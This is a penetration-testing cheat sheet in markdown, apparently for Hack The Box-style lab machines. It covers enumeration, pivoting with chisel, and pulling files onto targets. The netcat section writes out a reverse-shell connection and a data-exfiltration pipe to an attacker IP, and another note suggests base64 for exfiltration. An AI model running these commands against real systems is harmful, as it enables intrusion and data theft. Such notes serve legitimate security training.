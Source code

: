 # PT𓀮EH

```sh
# VM host:

# kali server:
10.10.14.69

# vuln boxes:
10.10.10.198
```

# toc

<!-- vim-markdown-toc GFM -->

  * [enumeration](#enumeration)
  * [foothold and pivot](#foothold-and-pivot)
    * [kali](#kali)
    * [linux](#linux)
    * [windows](#windows)
  * [priviledge escalation](#priviledge-escalation)
    * [linux](#linux-1)
    * [windows](#windows-1)
* [bonus](#bonus)
  * [oneliners](#oneliners)
  * [kali config](#kali-config)
  * [kali tips](#kali-tips)
  * [basics](#basics)
    * [windows](#windows-2)
    * [linux](#linux-2)
* [tools](#tools)
  * [less](#less)
  * [nc](#nc)

<!-- vim-markdown-toc -->

## enumeration

<details><summary><input type=checkbox> port scanning</summary>

```sh
nmap -v $host | tee 00.nmap # fast initial scan.

```

</details>

## foothold and pivot

### kali

<details> <summary><input type=checkbox> serving files</summary>

```sh
# via webserver:
python3 -m http.server 80

# via samba:
impacket-smbserver -smb2server share .
```

</details>

<details><summary><input type=checkbox> reverse shells and port bindings</summary>

```sh
# netcat
rlwrap nc -lnvp 42424

# chisel
# start the client first:
chisel client -v 10.10.14.69 R:8888:127.0.0.1:8888
# local: 8888
# remote: 127.0.0.1:8888
chisel server -v -p 12345 --reverse
# connect with:

# plink
```

</details>


### linux

<details><summary><input type=checkbox> information gathering</summary>


```sh
id # user and groups.
ps -p $$
ip a # or ifconfig.
netstat -tulpen # connections.
lsblk # devices.
locate / # list of probably every file on the system.
# depending on under which user updatedb ran.
```

</details>

<details><summary><input type=checkbox> downloading files</summary>


```sh
# linux download:
wget $h/file
curl $h/file -so file
```

</details>

<details><summary><input type=checkbox> info gathering with external tools</summary>


```sh
./linpeas.sh -a
```

</details>

### windows

<details><summary><input type=checkbox> information gathering</summary>

```sh
dir /q
whoami /all
systeminfo
set
tasklist
ipconfig /all
netstat -nao | findstr 127 | findstr LISTEN

# services
powershell -c "Get-Service | Format-Table -AutoSize"
sc # stop/start service
net start # old (from DOS)
```

</details>

<details><summary><input type=checkbox> downloading files</summary>


```sh
# powershell:
iwr hostname/file.exe -outf file.exe
# long version:
Invoke-WebRequest hostname/file.exe -OutFile file.exe
```

</details>

<details><summary><input type=checkbox> info gathering with external tools</summary>


```sh
linpeas.exe
linpeas.bat # if exe fails.
```

</details>

## priviledge escalation

### linux

### windows

# bonus
## oneliners

```sh
# upgrade shell:
python -c 'import pyt;pty.spawn("bash")'

# fix environment:
export TERM=linux

# logging a reverse shell locally:
script # stop with ^D. breaks in vi. finicky.

# get a temp dir:
cd $(mktemp -d)

# get local connections:
netstat -tulpen
```

## kali config

```sh
# pip2 for new Kalis:
curl -s https://bootstrap.pypa.io/get-pip.py | python2
pip2 install requests colorama # for the exploit above.
pip2 install xlrd # for windows exploit suggester.
apt install ncdu

pip3 install cve_searchsploit # https://github.com/andreafioraldi/cve_searchsploit
# update it:
cve_searchsploit -u

cd /opt
git clone 'https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git'
cd Windows-Exploit-Suggester
python windows-exploit-suggester.py --update
python windows-exploit-suggester.py --help

# chisel
cd /opt
wget 'https://github.com/jpillora/chisel/releases/download/v1.7.1/chisel_1.7.1_windows_386.gz'
wget 'https://github.com/jpillora/chisel/releases/download/v1.7.1/chisel_1.7.1_linux_386.gz'
gunzip chisel*
mv chisel*windows* chisel.exe
```

```sh
# metasploit
sudo service postgresql start
sudo msfdb init
msfconsole # db_status
```

## kali tips

* ranger disables previews for root (enable them on a by case basis with `zp`)

## basics
### windows

```sh
# windows get cmd.exe help:
help

# powershell
cd $env:tmp

# cmd.exe
cd %tmp%
```

### linux

```sh
umask -S # file creation mask.
# help umask (linux)

sudo -l # list allowed and forbidden commands.

sudo -u kali whoami # run whoami as kali.

base64 # great for exfiltration without inet.
# then just copy the text from the terminal.
# -d to decode it again.
# use pipes or pass a filename.

strings -e # different encoding options.

find . # get list of all files in dir.
# great for lot's of files/folders with spaces
# where autocompletion is broken.

xdotool # fake keyboard mouse in X.
```

# tools

## less

examples:

```sh
./linpeas.sh | less -R # read raw control chars (colors).
```

* less uses many vim bindings
* press `h` for help
* press `s` to save to a file
* `Gg` scrolls to the bottom and back up, now you can use `^g` to show progress!

## nc

> reverse shell
```sh
# attacker:
nc -lnvp 12345

# attackee:
nc 10.10.14.69 12345
```

> exfiltration by piping over the network
```sh
# attacker:
nc -lnvp 12345 > exfil_file

# attackee:
nc -q0 10.10.14.69 12345 < exfil_file
```

* commands this can be useful for: `dd`, `tar` (tar pipe)

> check for open port
```sh
nc -vvz localhost 443

# multiple
nc -vzz localhost 80 8080

# or a range
nc -vvz localhost 1-1024 2>&1 | grep -v refused
```
